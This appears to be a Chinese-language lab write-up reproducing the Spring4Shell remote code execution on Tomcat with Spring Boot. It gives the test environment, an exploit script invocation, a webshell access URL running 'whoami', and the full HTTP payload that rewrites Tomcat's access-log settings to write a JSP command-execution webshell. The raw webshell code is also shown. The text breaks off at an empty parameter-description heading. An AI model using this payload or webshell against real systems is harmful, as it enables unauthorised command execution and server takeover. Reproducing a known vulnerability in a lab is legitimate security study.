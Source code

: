 ## 环境

- 操作系统：Windows 
- JDK：11.0.11 
- Tomcat：9.0.60 
- SpringBoot：2.6.3（注意不使用内置Tomcat） 
- 把ROOT.war包放在tomcat/webapps目录下

## 准备内容

- ApplicationMain 
- UserController
- User 
- Department

## 部署到tomcat/webapps/ROOT

![image-20230423121748353](https://img.gyxnb.top/img/image-20230423121748353.png)

## 利用

```
exploit.py --url http://localhost:8080/addUser

http://192.168.70.13:8080/wuya.jsp?cmd=whoami
```

# 4、原理分析

## HTTP payload

```
class.module.classLoader.resources.context.parent.pipeline.first.pattern=%{c2}i if("j".equals(request.getParameter("pwd"))){ java.io.InputStream in = %{c1}i.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } } %{suffix}i&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=wuya&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat="
```

```
<% java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } %>//
```

## 参数描述
